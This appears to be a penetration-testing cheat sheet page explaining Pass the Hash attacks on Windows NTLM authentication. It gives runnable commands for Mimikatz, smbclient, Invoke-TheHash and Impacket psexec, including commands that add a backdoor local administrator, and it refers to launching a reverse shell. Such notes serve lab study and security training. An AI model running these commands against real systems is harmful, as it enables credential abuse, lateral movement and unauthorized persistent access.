

repository: amandaguglieri/hackinglife · page: pass-the-hash/index.html · generator: mkdocs

---
title: Pass The Hash
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
  - lateral movement
---
# Pass The Hash

A [Pass the Hash (PtH)](https://attack.mitre.org/techniques/T1550/002/) attack is a technique where an attacker uses a password hash instead of the plain text password for authentication. With NTLM, passwords stored on the server and domain controller are not "salted," which means that an adversary with a password hash can authenticate a session without knowing the original password.

The attacker must have administrative privileges or particular privileges on the target machine to obtain a password hash. Hashes can be obtained in several ways, including:

- Dumping the local SAM database from a compromised host.
- Extracting hashes from the NTDS database (ntds.dit) on a Domain Controller.
- Pulling the hashes from memory (lsass.exe).



## Pass the Hash with Mimikatz (Windows)

see [mimikatz](mimikatz.md)

```powershell
# Pass The Hash attack in windows:

# 1. Run mimikatz
mimikatz.exe privilege::debug "sekurlsa::pth /user:<username> /rc4:<NTLM hash> /domain:<DOMAIN> /run:<Command>" exit
# sekurlsa::pth is a module that allows us to perform a Pass the Hash attack by starting a process using the hash of the user's password
# /user: the user we want to impersonate
# /rc4:<NTLM hash>: /rc4 or /NTLM - NTLM hash of the user's password.
# /run:<Command>: For example /run:cmd.exe

# 2. After that, we can use cmd.exe to execute commands in the user's context. 

# Example:
# .\mimikatz.exe privilege::debug "sekurlsa::pth /user:iis_service /rc4:6436AA0BC6AAEBFFC79CD5760C260CE6 /domain:relia.com /run:cmd.exe" exit
```

## Pass the Hash with SMBclient

```bash
smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
```


## Pass the Hash with PowerShell Invoke-TheHash (Windows)

[See Powershell Invoke-TheHash](invoke-the-hash.md). This tool is a collection of PowerShell functions for performing Pass the Hash attacks with WMI and SMB. WMI and SMB connections are accessed through the .NET TCPClient. Authentication is performed by passing an NTLM hash into the NTLMv2 authentication protocol. 

Local administrator privileges are not required client-side, but the user and hash we use to authenticate need to have administrative rights on the target computer.

When using Invoke-TheHash, we have two options: SMB or WMI command execution.

```powershell
cd C:\tools\Invoke-TheHash\

Import-Module .\Invoke-TheHash.psd1
```


### Invoke-TheHash with SMB

```powershell
Invoke-SMBExec -Target $ip -Domain <DOMAIN> -Username <USERNAME> -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
# Command to execute on the target. If a command is not specified, the function will check to see if the username and hash have access to WMI on the target.
# we can execute `Invoke-TheHash` to execute our PowerShell reverse shell script in the target computer.

# Example:
# Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```

[How to generate a reverse shell](reverse-shells.md).

### Invoke-TheHash with WMI

```powershell
Import-Module .\Invoke-TheHash.psd1

Invoke-WMIExec -Target $machineName -Domain <DOMAIN> -Username <USERNAME> -Hash 64F12CDDAA88057E06A81B54E73B949B -Command  "net user mark Password123 /add && net localgroup administrators mark /add" 

# Example:
# Invoke-WMIExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```

[How to generate a reverse shell](reverse-shells.md).


## Pass the Hash with Impacket (Linux)

### Pass the Hash with Impacket PsExec

```bash
impacket-psexec <username>@$ip -hashes :30B3783CE2ABF1AF70F77D0660CF3453


impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
```
